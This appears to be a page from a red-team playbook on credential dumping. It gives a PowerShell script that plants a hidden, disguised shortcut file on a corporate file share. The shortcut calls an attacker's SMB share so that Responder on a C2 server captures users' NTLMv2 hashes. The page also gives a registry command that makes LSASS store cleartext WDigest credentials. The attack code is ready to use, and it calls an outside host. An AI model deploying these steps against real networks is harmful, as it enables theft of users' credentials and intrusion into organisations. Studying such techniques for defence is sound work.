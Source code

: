 # 4.2 Credential Dumping

## LNK Files

A neat little trick to gather `NTLMv2 Hashes` every time a corporate file share got accessed, is to create a malicious `file`,
which takes place in the same directory on the fileshare.

At first it is necessary to create the malicious file with the following script from [v3ded's blog](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence) which i modified slightly to weaponize it for the use with `Responder`.

```c
$path                      = "$([Environment]::GetFolderPath('Desktop'))\<FILE>.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c explorer.exe Z:\PATH\TO\SHARE & \\<LHOST>\foobar" # Calls the SMB share of the responder instance on the C2 server
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = ""

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
```

Next, switch the folder icon to the same icons as used on the fileshare. After that all is to hide the target folder with
the following command.

```c
C:\> attrib -h Z:\PATH\TO\FOLDER\<FOLDER>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/files/lnk_payload.png">
</p>

After this the malicious file takes place in the same directory as the hidden non-malicious folder.
Everytime a user opens the folder, his `NTLMv2 Hash` got send to the `C2` server which is running `Responder`.

```c
$ sudo responder -I <INTERFACE>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/files/malicious_file.png">
</p>

## WDigest

### Store cleartext credentials in LSASS

```c
PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name "UseLogonCredential" -Value '1'"
```

### Previous

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)
- [4.1 Defense Evasion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.1-Defense-Evasion.md)

### Next

- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)
- [4.4 Lateral Movement](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md)
